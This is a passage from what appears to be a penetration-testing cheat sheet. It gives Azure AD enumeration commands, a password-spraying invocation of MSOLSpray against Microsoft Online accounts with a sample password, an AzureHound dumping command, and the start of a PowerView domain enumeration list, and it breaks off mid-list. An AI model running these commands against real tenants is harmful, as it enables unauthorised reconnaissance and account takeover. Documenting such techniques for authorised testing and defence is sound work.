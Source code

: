 * authenticate to Azure AD
```
Connect-AzureAD
```

* list all domain users
```
Get-AzureADUser -All $true
```

* List all domain groups
```
Get-AzureADGroup -All $true
```

* List members of a domain-specific group
```
Get-AzureADGroupMember -ObjectId <ID>
```

* Enumerate all devices in the domain
```
Get-AzureADDevice -All $true
```

### Password Spraying in Microsoft Online accounts

https://github.com/dafthack/MSOLSpray

* Import Module
```
Import-Module MSOLSpray.ps1
```

* attack
```
Invoke-MSOLSpray -UserList .\users.txt -Password Empresa@2024
```

### Automated Azure AD Enumeration and Dumping

```
azurehound list -u "<user>" -p "<password>" -t "<tenant>"
```
https://github.com/BloodHoundAD/AzureHound

## Domain Enumeration

### Using PowerView

[Powerview v.3.0](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)<br>
[Powerview Wiki](https://powersploit.readthedocs.io/en/latest/)

- **Get Current Domain:** `Get-Domain`
- **Enumerate Other Domains:** `Get-Domain -Domain <DomainName>`
- **Get Domain SID:** `Get-DomainSID`
- **Get Domain Policy:**
